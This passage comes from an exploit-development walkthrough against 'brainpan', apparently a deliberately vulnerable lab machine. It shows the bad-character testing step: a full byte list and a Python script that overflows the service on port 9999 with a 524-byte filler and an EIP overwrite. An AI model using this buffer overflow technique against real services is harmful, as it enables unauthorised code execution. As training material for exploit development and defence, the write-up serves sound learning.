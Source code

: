 I now control EIP! 

#### Bad Characters

Before I go any further I need to check for bad characters that could break the exploit. To do this I updated the script with the following string. Normally I remove /x00 as this is a null byte and will break the exploit however to show the process of identifying bad characters I have kept it in. 

```highlight
\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f
\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40
\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f
\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f
\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f
\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf
\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf
\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff
```

Ive updated the script with the bad character list.

```highlight
#!/usr/bin/python3

import sys, socket
from time import sleep

badchars = ("\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f"
"\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f"
"\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f"
"\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f"
"\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf"
"\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf"
"\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")

filler = "A" * 524
EIP = "B" * 4
offset = "C" * 4
junk = "D" * (700 -len(filler)-len(EIP))
buffer = filler + EIP + offset + badchars

try:
    s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    s.connect(("brainpan",9999))
    s.recv(1024)
    s.send(buffer + "\r\n")
    s.close()

except:
```